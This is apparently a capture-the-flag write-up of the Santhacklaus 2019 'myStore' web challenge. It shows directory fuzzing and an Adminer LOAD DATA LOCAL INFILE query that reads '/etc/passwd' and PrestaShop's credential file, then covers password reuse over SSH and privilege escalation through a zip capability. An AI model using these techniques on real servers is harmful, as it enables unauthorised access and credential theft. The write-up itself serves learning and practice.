


# Santhacklaus CTF 2019 - myStore (part 1 & 2)

This challenge is a web challenge from the Santhacklaus CTF 2019.
You can visit the CTF platform [here](https://ctf.santhacklaus.xyz) and the challenge [here](https://mystore.santhacklaus.xyz).

## Context

> One of your friend wants to launch his online shop at https://mystore.santhacklaus.xyz. You quickly briefed him on the basic principles of IT security and he ensures you that he has followed all your advice. Conduct your audit and show him that its platform is not properly secured !

## Part 1: Get access to the server

First I started by exploring the website that looks like a regular online goodies store.



Once I had wandered a bit around the website, I learnt from its footer that it is a Prestashop website.

With this piece of information in mind, my first idea was to look for known vulnerabilities of Prestashop on [Exploit DB](https://www.exploit-db.com). However, this website seems to be up to date so I tried to look elsewhere.

Next I ran a quick wfuzz on the website using [this wordlist](https://raw.githubusercontent.com/jivoi/pentest/master/wordlists/fuzz.txt) in the hope of finding something interesting:

```bash
wfuzz -c -z file,fuzz.txt --hc 302,400,403,404 https://mystore.santhacklaus.xyz/FUZZ
# the --hc option excludes the specified codes from our results for more clarity
```


Among other results there was one interesting page: adminer.php.


Adminer is a database administration web interface that allows us to manage remotely our databases. In fact, if we take a look at the version of this Adminer, we realize that it is 4.6.2 while there is already a version 4.7.5, which means that this instance is quite outdated.

With a quick research, I learnt that there is a vulnerability in Adminer before version 4.6.3: as explained in [this article](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool), it seems that we can exploit this vulnerability to read files on the server, so I tried to follow the instructions of the article and first I deployed my own MySQL server so that I can log in the Adminer.


Once logged in and connected to my *test* database, I created a table named *supertable* with only one text column named *data*. In fact, this table is where we are going to store the lines of the files we extract.


I then headed to the *SQL command* page and the following command can be used to transfer files on the Adminer host to our database, provided that we know the full path of the files we are looking for:

```
LOAD DATA LOCAL INFILE '/etc/passwd'
INTO TABLE test.supertable
FIELDS TERMINATED BY "\n"
```
 

As you can see, the content of `/etc/passwd` has been copied into my *supertable* and if you take a look at it, there are two interesing users: **john** and **admin**.

After some blind exploration, I started looking for the website's root folder. With a little bit of knowledge of common practices on web servers, I finally found the file `/var/www/html/mystore/index.php` !


So now we know that the interesting files are in /var/www/html/mystore. What we are looking for is an potential database configuration file with some juicy credentials in it...

A quick [research](https://www.prestashop.com/forums/topic/44463-database-conncetion-configuration-file/) tells us that the file we are looking for is `/var/www/html/mystore/app/config/parameters.php`.

Executing the previous SQL command with this file gives us access to the database configuration of the shop:

```php
 * Do not edit or add to this file if you wish to upgrade PrestaShop to newer
 * versions in the future. If you wish to customize PrestaShop for your
 * needs please refer to https://www.prestashop.com for more information.
 *
 * @author    PrestaShop SA <contact@prestashop.com>
 * @copyright 2007-2019 PrestaShop SA and Contributors
 * @license   https://opensource.org/licenses/OSL-3.0 Open Software License (OSL 3.0)
 * International Registered Trademark & Property of PrestaShop SA
 */
""
"require dirname(__FILE__).'/config/config.inc.php';"
"Dispatcher::getInstance()->dispatch();"
<?php return array (
  'parameters' =>
  array (
"    'database_host' => '127.0.0.1',"
"    'database_port' => '',"
"    'database_name' => 'prestashop',"
"    'database_user' => 'john',"
"    'database_password' => 'KA6$g@Tx0{(Si4bR3DT4',"
"    'database_prefix' => 'ps_',"
"    'database_engine' => 'InnoDB',"
"    'mailer_transport' => 'smtp',"
"    'mailer_host' => '127.0.0.1',"
"    'mailer_user' => NULL,"
"    'mailer_password' => NULL,"
"    'secret' => 'nQsRnKmatOwiramvHwkXL7tENOXHJXzX6aRcTHvbF1mpPuwoxXhnJYHK',"
"    'ps_caching' => 'CacheMemcache',"
"    'ps_cache_enable' => false,"
"    'ps_creation_date' => '2019-11-27',"
"    'locale' => 'fr-FR',"
"    'cookie_key' => 'fgEckT9sZEACDaiAfoaYz0X2A89xgskcStbCP9KJx1brOsT1uNc9sxs9',"
"    'cookie_iv' => 'U6CcJzx1',"
"    'new_cookie_key' => 'def00000a1f9838c15944a070f20c3d1720aa6ec86e0c0291f3058d218087a33b62f9913f7888ab45fa7a75a691bcbd5215df502145140794295331c06187f9b7941d5ee',"
"  ),"
");"
```
Now that we've got the database name, the user and the password used, we can connect to Adminer with those credentials:


After an unsuccessful attempt to crack the admin password hash found in ths *ps_employee* table, I remembered that there was a system user named *john* in `/etc/passwd` so I decided to try my luck connecting via SSH to the server with the same credentials as the ones we used for the database.

And bingo ! John obviously doesn't bother to use different passwords...




## Part 2: Privilege escalation

Once logged in with John's account, the second part of the challenge is to get the flag in the admin home directory.

If we run [LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) on the server, we notice that the DAC_READ_SEARCH capability is set on `/usr/bin/zip`, which means that we can read any file on the system with **zip**!!!!


After zipping & unzipping `/home/admin/flag.txt`, here is our second flag !


